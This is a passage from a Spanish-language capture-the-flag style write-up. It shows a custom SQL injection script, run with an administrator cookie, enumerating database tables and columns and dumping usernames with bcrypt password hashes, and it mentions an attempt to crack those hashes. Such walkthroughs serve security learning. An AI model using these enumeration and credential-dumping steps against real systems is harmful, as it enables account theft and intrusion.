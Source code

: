 Luego de eso podemos ver que en total se nos listan 80 tablas, de las cuales me llaman la atención 2, users y messages, así que ahora continuaremos listando las columnas de la tabla users de la siguiente manera:

```bash
~$>./sqli.sh -c COOKIE_DEL_USUARIO_ADMINISTRADOR -e columns -t users -n 3
```

```bash
[+] Column [0]: id

[+] Column [1]: username

[+] Column [2]: password

[+] Column [3]: isAdministrator
```
vemos que solo se nos listan 4 columnas (id, username, password, isAdministrator) Veamos la información de los campos que nos interese de las columnas anteriormente encontradas, en mi caso listaré el username y password tal que así:

```bash
~$>./sqli.sh -c COOKIE_DEL_USUARIO_ADMINISTRADOR -e fields -f username,password -t users -n 3
```

```bash
[+] Field [0]: system:$2b$10$83pRYaRd4ZWJVEex.lxu.Xs1aTNDBWIUmB4z.R0DT0MSGIGzsgW 

[+] Field [1]: michael:$2b$10$yaYKN53QQ6ZvPzHGAlmqiOwGt8DXLAO5u2844yUlvu2EXwQDGf1q 

[+] Field [2]: jake:$2b$10$DkSlJB4L85SCNhS.IxcfeNpEBn.VkyLvQ2Tk9p2SDsiVcCRb4ukG 

[+] Field [3]: invertebrado:$2b$10$vP.vcNPPHhKVIQ.1vkjGM.4iFwZXksK5zVBBcUHe6upQoh7B.XW
```

Luego de esto podemos ver que en total hay 4 usuarios system,michael,jake,Invertebrado(el usuario que creamos al inicio) seguidos de unos hashes los cuales intenté crackear usando jhon con el diccionario rockyou, pero estaba tardando demasiado así que decidí cancelarlo y recordé que a demás de la tabla users había otra que se veía interesante (messages), entonces dumpee las columnas de esa tabla

```bash
~$>./sqli.sh -c COOKIE_DEL_USUARIO_ADMINISTRADOR -e columns -t messages -n 4
```

```bash
[+] Column [0]: id

[+] Column [1]: user_from

[+] Column [2]: user_to

[+] Column [3]: message_content

[+] Column [4]: is_read
```

ahí vemos las columnas que contiene, ahora sigue extraer los campos de interes
